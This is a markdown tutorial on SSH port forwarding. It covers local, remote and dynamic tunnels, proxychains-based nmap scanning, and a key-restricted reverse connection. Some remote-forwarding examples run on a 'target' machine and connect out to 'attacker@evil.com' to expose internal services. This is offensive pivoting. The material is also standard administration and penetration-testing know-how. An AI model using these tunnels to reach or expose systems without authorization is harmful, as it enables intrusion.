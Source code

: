 ### Port Forwarding with SSH

_Last modified: 2024-07-04_

SSH tunneling, also known as port forwarding, is a method of creating a tunnel between two endpoints through which traffic is forwarded.

#### Local Port Forwarding

We can forward a port on the local machine to a port on the remote machine by adding the flag `-L` with SSH. The remote SSH username/password is also required.

```bash
ssh -L [<local-ip>:]<local-port>:<destination-ip>:<destination-port> remote-user@<remote-ip>
```

Flags:
- `-f`: Background
- `-N`: Do not execute remote commands

```bash
ssh -L [<local-ip>:]<local-port>:<destination-ip>:<destination-port> remote-user@<remote-ip> -fN
```

#### Examples

Below are some examples:

- We can access the internal webserver in the remote machine via `http://127.0.0.1/`
  ```bash
  sudo ssh -L 80:127.0.0.1:80 john@example.com
  sudo ssh -L localhost:80:127.0.0.1:80 john@example.com
  ```

- We can connect to the database on local port 3306
  ```bash
  ssh -L 3306:db.example.com:3306 john@example.com
  ssh -L localhost:3306:db.example.com:3306 john@example.com
  # Another port
  ssh -L 3336:db.example.com:3306 john@example.com
  ```

- Multiple ports
  ```bash
  ssh -L 8001:127.0.0.1:8001 -L 9090:127.0.0.1:9090 john@example.com
  ```

#### Stop Local Port Forwarding

To stop the local port forwarding if it is running in the background, find the process ID and specify it to the kill command.

```bash
ps aux | grep ssh
kill <PID>
```

#### Remote Port Forwarding (Reverse Port Forwarding)

We can forward a port on the remote machine to a port on the local machine by adding the flag `-R` with SSH.

```bash
ssh -R [<remote-ip>:]<remote-port>:<destination-ip>:<destination-port> remote-user@<remote-ip>
```

#### Examples

Run the following command on the remote (target) machine:

- Example 1
  ```bash
  ssh -R 8080:127.0.0.1:3000 attacker@evil.com
  # Now access 127.0.0.1:3000 on the local machine. That means we can access 127.0.0.1:8080 of the remote machine.
  ```

- Example 2
  ```bash
  ssh -R 192.168.27.30:5555:127.0.0.1:4444 attacker@evil.com
  # Now access 127.0.0.1:4444 on the local machine. That means we can access the remote's internal service (192.168.27.30:5555).
  ```

#### Dynamic Port Forwarding

If we cannot determine the remote ports opened internally, we can find them using dynamic port forwarding. First, execute the dynamic port forwarding using SSH.

```bash
ssh -D 1337 remote-user@<remote-ip>
```

Then, update the configuration for Proxychains. In `/etc/proxychains.conf`, comment out `socks4 127.0.0.1 9050` and add `socks5 127.0.0.1 1337` at the bottom of the file.

```bash
# socks4 127.0.0.1 9050
socks5 127.0.0.1 1337
```

After that, try port scanning to find open ports on the remote machine over `127.0.0.1`.

```bash
proxychains nmap 127.0.0.1
```

When we find the open ports, we can execute the Local Port Forwarding using the ports we found. We can close the previous dynamic port forwarding if not necessary.

```bash
ssh -L <local-port>:127.0.0.1:<port-we-found> remote-user@<remote-ip>
```

For example, if we want to open port 80 locally, we need to run with root privileges.

```bash
sudo ssh -L 80:127.0.0.1:80 john@example.com
ssh -L 3306:127.0.0.1:3306 john@example.com
```

Now access `http://127.0.0.1/`. We can access the remote webserver.

#### Reverse Connection

Reverse connections are often used in situations where the server needs to be accessible from the client's network, but the server's network is restricted. By initiating a reverse connection, the client can establish a connection to the server without the need for the server to be accessible on the public internet.

1. **Generate SSH Keys on the Remote Machine:**
   ```bash
   ssh-keygen
   ```
   Then save them (public key and private key) to an arbitrary folder.
   ```bash
   mkdir /home/remote-user/reverse-keys
   mv id_rsa /home/remote-user/reverse-keys
   mv id_rsa.pub /home/remote-user/reverse-keys
   ```
   Copy the content of the public key (`id_rsa.pub`).

2. **Add the Content of the Public Key to `authorized_keys` on Your Local Machine:**
   ```bash
   echo 'content of public key' >> ~/.ssh/authorized_keys
   ```
   To clarify that the key is only for reverse connection, add the following line to this content in `authorized_keys`.
   ```bash
   # ~/.ssh/authorized_keys
   command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty id-rsa AAAAAB3NzaC........
   ```
   Check if the SSH server is running. If not, start the SSH server.
   ```bash
   sudo systemctl status ssh
   sudo systemctl start ssh
   ```

3. **Run Reverse Proxy on the Remote Machine:**

   Reverse port forwarding using the private key (`id_rsa`):
   ```bash
   ssh -R <local-port>:<remote-ip>:<remote-port> local-user@<local-ip> -i id_rsa -fN
   ```

4. **Confirmation on Your Local Machine:**

   You can access `<remote-ip>:<remote-port>`.

5. **Close Connection on Remote Machine:**

   After that, stop the reverse connection.
   ```bash
   ps aux | grep ssh
   sudo kill <PID>
   ```

#### References

- [How to Setup SSH Tunneling](https://linuxize.com/post/how-to-setup-ssh-tunneling/)

---

Hope this guide helps! If you need further assistance or have more examples, feel free to ask. 🚀
